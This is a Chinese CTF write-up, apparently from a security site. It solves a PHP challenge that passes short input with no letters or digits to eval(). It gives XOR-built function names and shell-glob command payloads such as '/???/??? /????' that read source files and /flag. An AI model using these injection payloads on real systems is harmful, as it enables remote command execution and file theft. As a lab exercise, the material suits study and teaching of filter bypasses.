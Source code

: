 > 原文链接: https://www.anquanke.com//post/id/154284 


# CTF题目思考--极限利用


                                阅读量   
                                **429480**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">12</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t01433a38e76e65c858.jpg)](https://p2.ssl.qhimg.com/t01433a38e76e65c858.jpg)

朋友丢过来一个题目，说是极限利用，在兴趣的驱使下，看了下这个题目，发现还挺有意思的，这里简单分析分享一下



## 代码

```
&lt;?php
include 'flag.php';
if(isset($_GET['code']))`{`
    $code = $_GET['code'];
    if(strlen($code)&gt;40)`{`
        die("Long.");
    `}`
    if(preg_match("/[A-Za-z0-9]+/",$code))`{`
        die("NO.");
    `}`
    @eval($code);
`}`else`{`
    highlight_file(__FILE__);
`}`
//$hint =  "php function getFlag() to get flag";
?&gt;
```



## 分析

根据代码，我们要满足两个条件：
1. 长度不能大于40
1. 不能包含大小写字母，数字


## 思路一 ————误入歧途

首先根据提示，说的是要执行`getFlag`函数，来拿flag，然后开始构造。<br>
第一个想到的是ph的[博客](https://www.leavesongs.com/penetration/webshell-without-alphanum.html)中曾经提到的不使用字母和数字的webshell：<br>
其中有三种方式：
1. 两个字符串执行异或操作以后，得到的还是一个字符串
1. 位运算里的“取反”，可以使用中文得到所有字符
1. 我们只要能拿到一个变量，其值为a，通过自增操作即可获得a-z中所有字符
根据这个思路，我们选择了一个最短的方式来构造：

```
function u($x)`{`
    return urldecode($x);
`}`
$_=(u('%07')^'`').(u('%05')^'`').(u('%14')^'`').(u('%1B')^']').(u('%0C')^'`').(u('%01')^'`').(u('%07')^'`');
var_dump($_);
//$_();
```

得到的结果是

```
string(7) "getFlag"
```

也就完成了我们的目标，但是当计算了长度以后，发现差不多每一个字符都要用10个左右的长度来构造，这肯定是不行的。所以我们转变了思路。



## 思路二 ———— 突破束缚

为什么我们一定要执行那个函数呢？

> 想起了老师在课堂上说过，Linux下的一切都是文件，那不如去构造一个读文件，或者命令执行来读flag呢

想到这里，逐渐明确了思路，于是开始一点一点构造payload



## 怎么取回结果呢？

要想得到读文件或者命令执行的内容，我们需要一个用来输出的东西，但是我们又没有常规的函数，经过了一段时间的思考，想到了`&lt;?=$_?&gt;`，这个方式。

大家可能在刚开始学开发的时候，做模板渲染，用过这个方法，但是说真的不是很容易想起来，而且关键的是这个方式默认是开着的。



## 怎么执行命令？

既然输出方式有了，那也得有能执行命令或者读文件的地方呀，于是想到了在php题目中经常出现的执行命令的方式`echo `ls`；`。<br>
这样执行命令的方法有了，进行下一步，找flag



## 没有数字字母怎么找到flag呢?

这里也是很有技巧的点，在Linux系统中，是支持正则的，某些你忘记某个字符情况下，你可以使用`? * %`等字符来替代，当然这里想要执行命令，需要极限的利用这个方法，经过测试：

```
/???/??? =&gt; /bin/cat
```

我们找到了这个关键的正则，我们先来读一下源码

```
$_=`/???/???%20/???/???/????/?????.???`;?&gt;&lt;?=$_?&gt;
"/bin/cat /var/www/html/index.php"
```

但是发现超出长度了，然后我们继续缩短长度，想到了用`*`来匹配文件夹下的所有文件：

```
$_=`/???/???%20/???/???/????/*`;?&gt;&lt;?=$_?&gt;
```

这样我们就读到了源码。<br>[![](https://p2.ssl.qhimg.com/t01c839291a64b4e022.png)](https://p2.ssl.qhimg.com/t01c839291a64b4e022.png)



## 获取flag

我们得到了flag.php的源码是：

```
&lt;?php
$FLAG = file_get_contents("/flag");

function getFlag()`{`
    global $FLAG;
    echo $FLAG;
`}`
```

然后我们直接去读flag文件即可：

```
$_=`/???/???%20/????`;?&gt;&lt;?=$_?&gt;
```

[![](https://p3.ssl.qhimg.com/t01e372765e23b1f5e9.png)](https://p3.ssl.qhimg.com/t01e372765e23b1f5e9.png)



## 总结

这个题目出的很有意思，要想做出这个题目，需要很多的技巧和经验，也属于极限利用的一种形式，当然如果有大佬有好的解决思路，也可以评论交流。
